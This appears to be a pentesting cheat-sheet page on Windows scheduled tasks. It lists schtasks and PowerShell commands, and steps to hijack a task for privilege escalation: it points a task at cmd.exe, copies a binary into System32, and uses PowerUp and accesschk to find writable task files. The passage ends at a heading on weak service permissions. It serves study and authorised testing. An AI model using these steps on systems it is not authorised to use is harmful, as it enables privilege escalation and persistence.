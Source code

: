 control schedtasks

**Output for all tasks: **

`schtasks /query /fo LIST /v > tasks.txt `

Or in a Table:

`schtasks /query /fo TABLE`

**Specific task: **

`schtasks/query /fo LIST /v /tn TaskName `

**Start Scheduled tasks:**

`PS> Start-ScheduledTask -TaskName "ScanSoftware"`

**Stop Scheduled task:**

`PS> Stop-ScheduledTask -TaskName "ScanSoftware"`

**PowerUP**

`Get-ModifiableScheduledTaskFile`

```
Start-ScheduledTask -TaskName "ScanSoftware"
Start-ScheduledTask -TaskName "Don't_Kill_Me3"
schtasks /run /tn "task name"
End Task
schtasks /end /tn "task name"
Get Task Info
Get-ScheduledTaskInfo -TaskName "Don't_Kill_Me3"
schtasks /query /tn "Don't_Kill_Me3" /FO list /v
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v | findstr "Task To Run"
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
View running tasks
get-scheduledtask | ? state -eq running
Modifying a scheduled task
schtasks.exe /change /tn "Don't_Kill_Me3" /tr:c:\windows\system32\cmd.exe
copy c:\Users\administrator\XblGameSaveTask.exe c:\Windows\System32\XblGameSaveTask.exe
$Act1 = New-ScheduledTaskAction -Execute "C:\windows\system32\Notepad.exe"
Set-ScheduledTask "Don't_Kill_Me3" -Action $Act1
accesschk.exe /accepteula -quvw C:\Users\Administrator\Desktop\Backup.ps1
FILE_ALL_ACCESS
```

## Weak Service Permissions

[More information under 'Running services'](running-services.md)

### Check Permission

#### Manual
